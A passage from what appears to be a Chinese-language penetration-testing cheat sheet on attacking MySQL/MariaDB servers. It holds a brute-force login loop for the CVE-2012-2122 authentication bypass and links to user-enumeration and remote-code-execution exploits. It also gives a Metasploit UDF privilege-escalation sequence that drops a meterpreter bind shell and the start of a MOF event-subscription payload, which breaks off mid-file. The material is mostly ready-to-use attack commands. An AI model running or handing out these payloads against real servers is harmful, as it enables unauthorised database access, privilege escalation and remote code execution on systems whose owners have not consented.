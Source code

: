     当连接 MariaDB/MySQL 时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是 memcmp() 返回一个非零值，也会使 MySQL 认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入 SQL 数据库。

- POC | Payload | exp
    ```
    for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
    ```

**CVE-2012-5615 Oracle MySQL Server 5.5.19 用户名枚举漏洞**
- 简介

    MySQL 5.5.19 以及其他版本和 MariaDB 5.5.28a，5.3.11，5.2.13，5.1.66 以及其他版本中存在漏洞，该漏洞源于不同时间延迟产生不同错误消息取决于用户名是否存在。远程攻击者利用该漏洞枚举有效的用户名。

- POC | Payload | exp
    - [MySQL - Remote User Enumeration](https://www.exploit-db.com/exploits/23081)
    - [MySQL 5.1/5.5 (Windows) - 'MySQLJackpot' Remote Command Execution](https://www.exploit-db.com/exploits/23073)

### Mysql提权

**相关文章**
- [Windows下三种mysql提权剖析](https://xz.aliyun.com/t/2719)

**UDF 提权**
- 相关文章
    - [Command execution with a MySQL UDF](http://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html)

- POC | Payload | exp
    - [mysqludf/lib_mysqludf_sys](https://github.com/mysqludf/lib_mysqludf_sys)
    - [T3st0r-Git/HackMySQL](https://github.com/T3st0r-Git/HackMySQL) - Using To MySQL Elevate Privileges.

- MSF 模块
    ```bash
    use exploit/multi/mysql/mysql_udf_payload
    set RHOSTS [ip]
    set USERNAME [user]
    set PASSWORD [pass]
    set target 0
    set payload windows/meterpreter/bind_tcp
    set RHOST [ip]
    set LPORT 4444
    exploit
    ```

**MOF 提权**

MOF提权的条件要求十分严苛:
1. windows 03 及以下版本
2. mysql 启动身份具有权限去读写 c:/windows/system32/wbem/mof 目录
3. secure-file-priv 参数不为 null

```ini
#pragma namespace("\\.\root\subscription")

instance of __EventFilter as
{
EventNamespace = "Root\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
    "Where TargetInstance Isa \"Win32_LocalTime\" "
    "And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as
```
